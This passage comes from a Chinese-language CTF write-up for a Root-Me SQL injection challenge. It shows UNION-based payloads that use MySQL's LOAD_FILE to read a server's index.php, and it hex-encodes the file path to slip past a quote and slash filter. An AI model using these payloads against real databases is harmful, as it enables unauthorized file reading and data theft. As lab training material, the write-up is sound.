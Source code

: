 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/14.png)

在 Mysql 中读取文件的函数为 `LOAD_FILE` ，只要把文件路径传参进去，就会返回文件内容。

因此我们可以把探针的 CONCAT 函数替换掉，改造成这样的 payload ：

```sql
-8544 UNION ALL SELECT NULL,LOAD_FILE("/challenge/web-serveur/ch31/index.php"),NULL,NULL--
```

但是这个 payload 无法直接使用，测试发现原因是引号 `"`、`'` 和文件路径符 `/` 不能被直接注入：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/15.png)


不过符号问题可以很简单绕过，只需要把 `/challenge/web-serveur/ch31/index.php` 编码成 16 进制再传参即可。

可以使用 Burp Suite -> Decoder 进行编码，得到 ：

`2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/16.png)

将其作为 `LOAD_FILE` 的参数（因为是 16 进制，注意前面要补 `0x` 声明），重新构造 payload 如下：

```sql
-8544 UNION ALL SELECT NULL,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870),NULL,NULL--
```

执行这个 payload ，成功得到 `index.php` 页面的文件源码（注意要在浏览器的开发者工具里面看）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/17.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
